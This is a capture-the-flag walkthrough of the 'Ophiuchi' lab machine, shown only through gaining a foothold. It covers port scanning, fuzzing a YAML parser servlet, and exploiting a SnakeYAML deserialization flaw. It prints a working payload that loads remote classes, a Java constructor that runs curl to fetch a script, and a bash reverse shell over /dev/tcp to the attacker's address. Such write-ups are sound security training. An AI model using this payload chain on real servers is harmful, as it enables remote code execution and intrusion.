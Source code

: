 # Ophiuchi

## Details

- **Points**: 30
- **Difficulty**: Medium
- **Operating System**: Linux
- **IP Address**: 10.10.10.227

## Table of Contents

- Foothold
  - [Network Scanning](#network-scanning)
  - [Web Application Enumeration](#web-application-enumeration)
  - [SnakeYAML Library](#snakeyaml-library)
  - [SnakeYAML Deserialization Vulnerability](#snakeyaml-deserialization-vulnerability)
  - [Getting Initial Foothold](#getting-initial-foothold)
- User
- Root

## Walkthrough

### Network Scanning

As usual, let's start with scanning the network with Nmap.

```
$ sudo nmap -sC -sV -O -oA nmap/out -p$(nmap -T4 -p- 10.10.10.227 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed "s/,$//") 10.10.10.227
[sudo] password for kali:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 20:38 AEST
Nmap scan report for 10.10.10.227
Host is up (0.022s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Parse YAML
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.60 seconds
```

### Web Application Enumeration

There is a Apache Tomcat webserver running on port 8080 on the remote machine. Let's check out the web application running on it.

![yaml parser](images/0.png)

Let's try to input a valid YAML into the text area.

![valid yaml](images/1.png)

and click on the **PARSE** button.

![feature disabled](images/2.png)

### SnakeYAML Library

Although the feature seems to be disabled due to security reason, let's keep on testing the web app since there is no other open ports. We can keep testing the app manually or using tools, such as [`wfuzz`](https://github.com/xmendez/wfuzz), which we will use in this scenario.

We can start testing the app by inputting bad characters, such as `'`, '!' and so on, into the textarea. With Kali Linux, we don't need to create our own list of bad characters as there is an existing list at `/usr/share/wordlists/wfuzz/Injections/bad_chars.txt`

We can start testing with the following command.

```
$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/bad_chars.txt -d "data=FUZZ" http://10.10.10.227:8080/Servlet
```

According to `wfuzz --help`, `-c` will color the output to make it easier to view, `-z` is needed to specify the type of the payload (in this case, a `file`) and its corresponding parameter (in this case, the `file`'s path).

If we inspect the web app,

![post request to servlet](images/3.png)

when the **PARSE** button is clicked, it will perform a POST request to `http://10.10.10.227:8080/Servlet`. Therefore, we also need `-d` to perform a POST request to the webserver and `FUZZ` will be replaced by the payload.

The output is as follows

![wfuzz output](images/4.png)

It looks like some symbols caused an error on the webserver as it returns [status code 500](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/500).

Trying to replicate the error by manually inputting one of the bad characters, such as `'`, gives us a more detailed error message.

![internal server error](images/5.png)

Now, we know that snakeyaml is running on the server. Let's do some research on this library.

### SnakeYAML Deserialization Vulnerability

A quick Google search leads us to [this article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858), which shows us that snakeyaml library has a deserialization vulnerability and how to exploit it.

In that article, the payload used was:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

According to the article, if snakeyaml sees `!!` when parsing YAML, it will interpret the following code as a Java class and call the constructor for the class.

In this scenario, the payload above should be the equivalent of the following

```java
new ScriptEngineManager(new URLClassLoader(new URL("http://attacker-ip/")))
```

it will class the constructor for Java's [ScriptEngineManager](https://docs.oracle.com/en/java/javase/11/docs/api/java.scripting/javax/script/ScriptEngineManager.html) class, which can accept a ClassLoader (in this case, [URLClassLoader](https://docs.oracle.com/javase/7/docs/api/java/net/URLClassLoader.html) is passed and, in turn, it accepts [URL](https://docs.oracle.com/javase/7/docs/api/java/net/URL.html)) as the constructor's argument.

According to ScriptEngineManager's [documentation](https://docs.oracle.com/en/java/javase/11/docs/api/java.scripting/javax/script/ScriptEngineManager.html), ScriptEngineManager will then send a request to the URL, `http://attacker-ip/`, and ask for an implementation of `ScriptEngineFactory` and execute it.
Therefore, if we can implement our own `ScriptEngineFactory`, we will be able to get a code execution on the server.

For now, let's try to input the following payload to the textarea and setup a python web server on our local machine with `python -m http.server 9999`.

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.59:9999"]
  ]]
]
```

![initial payload](images/6.png)

Although no error is raised, we still get a request on our python webserver.

```
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.10.227 - - [05/Jul/2021 21:45:57] code 404, message File not found
10.10.10.227 - - [05/Jul/2021 21:45:57] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

As explained earlier, ScriptEngineManager makes a request to the attacker ip address and asks for ScriptEngineFactory implementation with a specific directory structure. Since we still don't have the implementation, our server returns 404.

### Getting Initial Foothold

[This GitHub repository](https://github.com/artsploit/yaml-payload) provides a template that we can easily use to exploit the vulnerability. It has the directory structure that we want and an initial implementation of ScriptEngineFactory. Let's clone it.

The initial implementation in the repository doesn't give us a reverse shell. Let's change the implementation of the AwesomeScriptEngineFactory's constructor to the following

```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl -o /tmp/script 10.10.14.59:9999/script");
            Runtime.getRuntime().exec("bash /tmp/script");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Next, let's create a file named `script`, which will be requested by the remote machine using curl based on the implementation above.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.59/4444 0>&1
```

Now, let's compile `AwesomeScriptEngineFactory.java` to create `AwesomeScriptEngineFactory.class` with the following command:

```
javac AwesomeScriptEngineFactory.java
```

and create a new python server inside the `src` directory `cd yaml-payload/src && python3 -m http.server 9999`.

Additionally, create a `nc` listener for our reverse shell `nc -nlvp 4444` in another terminal window.

Finally, input the payload specified earlier to the textarea to create ScriptEngineManager and click **PARSE**.

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.10.227] 42364
bash: cannot set terminal process group (793): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
tomcat
bash-5.0$
```

python server logs:

```
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.10.227 - - [05/Jul/2021 22:08:16] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:16] "GET /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:17] "GET /artsploit/AwesomeScriptEngineFactory.class HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:17] "GET /script HTTP/1.1" 200 -
```
